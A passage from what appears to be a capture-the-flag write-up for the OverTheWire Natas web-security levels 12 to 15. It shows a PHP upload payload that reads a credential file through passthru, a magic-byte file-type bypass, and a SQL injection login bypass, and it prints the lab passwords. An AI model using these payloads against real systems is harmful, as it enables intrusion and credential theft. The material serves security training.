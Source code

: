 This filename is generated when the user loads the page, but it can be edited before we submit our file, meaning we can change the extension on the value attribute of that input tag, and when the file is uploaded it will have a `.php` extension. This will make the server treat the file like a `PHP` document, meaning we can excecute whatever code we want on this thing.

```HTML
<html><body><?php

print(passthru("cat /etc/natas_webpass/natas13"));

?></body></html>
```

We upload that file, change the tag to `whatever.php`, upload our file, and are given a link that gives us the next password.

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### [natas13](http://natas13.natas.labs.overthewire.org/)

natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

Natas level 13 is much like the previous level, the only addition is in a check using php's `exif_imagetype` function. This function merely checks the header of the file to see if it contains the a magic number that an image filetype would contain.
By appending the jpeg header `ff d8 ff e0` to our code, we should be able to bypass this check.

We do this, and recieve our password.

```
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

### [natas14](http://natas14.natas.labs.overthewire.org/)

natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

Natas level 14 is just some simple SQL injection, I'm sure more is soon to follow though

We input `natas15` as our username and `" or ""="` as our password. This results in the query made being

```SQL
SELECT * from users where username=natas15 and password= "" or ""=""
```

The password condition will always be true, so we are returned natas15's password

```
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

### [natas15](http://natas15.natas.labs.overthewire.org/)

natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

Here we don't get the result of your SLQ queries, we only recieve wether or not our query returned any results. We can abuse this information to figure out the password.
